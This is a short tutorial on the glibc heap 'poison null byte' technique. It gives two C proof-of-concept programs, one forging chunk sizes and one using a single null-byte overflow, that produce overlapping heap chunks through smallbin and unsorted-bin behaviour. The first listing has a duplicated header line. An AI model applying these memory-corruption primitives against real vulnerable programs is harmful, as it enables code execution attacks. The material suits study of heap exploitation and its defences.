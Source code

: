 # Poison null byte
> LongChampion, 16/03/2020

# Simple version: arbitrary overwrite
In this simple sersion, we can overwrite next chunk header with any content because of an overflow, let see what will happen:
```
#include <stdlib.h>

int main()
#include <stdlib.h>
#define PREV_INUSE 0x1

struct Chunk
{
    long long pre_size, size;
    struct Chunk *fd, *bk;
};

int main()
{
    void *a = malloc(0x100 - 8);
    void *b = malloc(0x100 - 8);
    void *c = malloc(0x100 - 8);

    struct Chunk *b_header = (struct Chunk *) (b - 0x10);
    b_header->size = 0x200 | PREV_INUSE;

    struct Chunk *f_header = (struct Chunk *) (b + 0x200 - 0x10);
    f_header->size = 0x200 | PREV_INUSE;

    free(b);
    b = malloc(0x200 - 8);
}
```
First, we overflow chunk `a` to set size of chunk `b` to 0x200 | 0x1. We must set PREV_INUSE flag or `free` will merge chunk `b` with chunk `a` when chunk `b` is freed. Then, we create a fake chunk at offset 0x200 behind chunk `b`. This size fake chunk must equal to fake size of chunk `b` (it's is 0x200 in the code above). Again, the PREV_INUSE flag is also necessary: you can free a chunk if is not in use. The chunk `c` very inportant: it is both the victim chunk to be overlapping and the "pivot" chunk to prevent chunk `b` become the top chunk, which we can not free.  
Finally, free chunk `b`, it will be pushed to smallbin of size 0x200. When we call `malloc(0x200 - 8)`, we recieve chunk `b` again but with BIGGER SIZE and we are able to overwrite to chuck `c`.

# Reality version: only one nullbyte overflow
This error is common but is harder to exploit.
```
#include <stdlib.h>
#include <malloc.h>

struct Chunk
{
    long long pre_size, size;
    struct Chunk *fd, *bk;
};

int main()
{
    void *a = malloc(0x100 - 8);
    void *b = malloc(0x210 - 8);
    void *c = malloc(0x100 - 8);

    free(b);

    *(char *) (a + malloc_usable_size(a)) = 0x00;
    struct Chunk *f_chunk = (struct Chunk *) (b + 0x200 - 0x10);
    f_chunk->pre_size = 0x200;

    void *b1 = malloc(0x100 - 8);
    void *b2 = malloc(0x60 - 8);

    free(b1);
    free(c);

    b = malloc(0x400 - 8);
}
```

> I highly recommend read [this](https://go.contextis.com/rs/140-OCV-459/images/Glibc_Adventures-The_Forgotten_Chunks.pdf) for visualization of this attack.

This attack is very similar to the last one except the followings:
- We modify chunk `b` AFTER it have been freed.
- The nullbyte DECREASE size of chunk `b` (0x00 is the smallest byte lol)
- The size of chunk `b1` must strictly LERGER than max size of fastbin
- After `free(c)`, chunk `b` is topchunk, so any malloc with size larger than size of last_remeaning_chunk will return `b`. (last_remeaning_chunk is the chunk remain in unsorted_bin when we call allocate `b2`)

## NOTE
- **DON'T MAKE YOUR LIFE OBSTRUCT BY YOURSELF**: In simple version, we set `f_chunk->size = 0x200 | PREV_INUSE`, but in reality version, we set `f_chunk->pre_size = 0x200`.
- This attack doesn't work against tcache_bin and fastbin because their mechanism are different from smallbin mechanism.
